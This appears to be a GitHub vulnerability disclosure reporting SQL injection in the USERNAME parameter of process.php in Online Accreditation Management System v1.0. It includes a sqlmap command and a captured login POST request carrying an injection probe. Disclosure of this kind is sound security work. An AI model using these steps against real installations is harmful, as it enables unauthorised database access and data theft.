



# Online-Accreditation-Management-System-v1.0-SQLi
**[Online Accreditation Management System v1.0 - SQLi](https://itsourcecode.com/free-projects/php-project/online-accreditation-management-system-in-php-with-source-code/)**
---

[Vendor](https://itsourcecode.com/author/adonesevangelista/)
---




### Description:

---

The vulnerability page is ```process.php```

```http://your-ip/AccreditationSystem/```


Online Accreditation Management System v1.0  

The ```USERNAME``` parameter in the ```process.php``` page appears to be vulnerable to SQL injection attacks.

[+]sqlmap:

Save the POST request package in `1.txt`, and then run the sqlmap

`python sqlmap.py -r 1.txt  --dbs` 

[+]POST request package

```
POST /AccreditationSystem/process.php?action=loginagency HTTP/1.1
Host: 10.211.55.3
Content-Length: 40
Accept: text/plain, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.61 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://10.211.55.3
Referer: http://10.211.55.3/AccreditationSystem/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=kc1vvdqjtt94b9i5461cf4s5r2
Connection: close

USERNAME=ff%E9%8E%88%27%22%5C%28&PASS=ff
```


### In action:

---






### Proof and Exploit:

---
